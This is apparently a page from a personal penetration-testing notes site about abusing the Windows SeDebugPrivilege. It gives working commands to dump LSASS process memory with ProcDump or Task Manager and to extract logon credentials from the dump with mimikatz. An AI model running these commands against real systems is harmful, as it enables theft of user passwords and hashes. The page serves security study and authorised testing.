

repository: amandaguglieri/hackinglife · page: sedebugprivilege/index.html · generator: mkdocs

---
title: SeDebugPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeDebugPrivilege
---
# 🗒 SeDebugPrivilege

This privilege can be used to capture sensitive information from system memory, or access/modify kernel and application structures. A user might be assigned the SeDebugPrivilege without belonging to the administrators group.

```powershell
whoami /priv
```

Output:

```cmd-session
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```


### Dumping lsass
We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory.

Dumping the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process:

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Exploiting it from the target host (if we can load tools such as mimikatz):

```cmd-session
mimikatz.exe

# Using 'mimikatz.log' for logfile : OK
mimikatz # log

# Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::minidump lsass.dmp

# Opening : 'lsass.dmp' file for minidump...
mimikatz # sekurlsa::logonpasswords
```

Exploiting it without the capability of loading tools: take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`.  Download this file back to our attack machine.
